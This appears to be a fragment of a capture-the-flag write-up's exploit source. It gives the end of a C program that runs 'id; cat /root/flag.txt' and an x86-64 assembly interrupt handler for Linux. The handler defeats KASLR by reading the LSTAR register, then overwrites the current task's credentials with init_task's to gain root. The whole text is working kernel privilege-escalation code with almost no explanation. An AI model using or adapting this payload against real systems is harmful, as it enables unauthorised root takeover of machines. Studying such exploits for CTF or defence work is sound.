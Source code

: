 ```c
    system("id; cat /root/flag.txt");

    return 0;
}
```
```asm
#include <linux/mman.h>
#include <sys/syscall.h>

#define MSR_LSTAR 0xc0000082
#define KASLR_LSTAR 0x800080
#define KASLR_INIT_TASK 0xe0a580
#define PERCPU_CURRENT 0x21440
#define STRUCT_TASK_STRUCT_REAL_CRED 0x5b0
#define STRUCT_TASK_STRUCT_CRED 0x5b8
#define STRUCT_CRED_USAGE 0x0

.global interrupt_handler

interrupt_handler:
    // Disable interrupts (interrupts cause double faults right now)
    cli

    // Read LSTAR to bypass KASLR
    movl $MSR_LSTAR,  %ecx
    rdmsr
    shlq $32, %rdx
    orq %rax, %rdx
    subq $KASLR_LSTAR, %rdx

    // Get access to per-cpu variables (current, mostly) via swapgs
    swapgs

    // Set current->cred and current->real_cred to init_task->cred
    addq $KASLR_INIT_TASK, %rdx
    movq STRUCT_TASK_STRUCT_CRED(%rdx), %rdx
    addl $2, STRUCT_CRED_USAGE(%rdx)
    movq %gs:PERCPU_CURRENT, %rax
    movq %rdx, STRUCT_TASK_STRUCT_CRED(%rax)
    movq %rdx, STRUCT_TASK_STRUCT_REAL_CRED(%rax)

    // Swap back
    swapgs

    // Fix IDT
    lidt original_idt

    // Enable interrupts
    sti
    iretq
```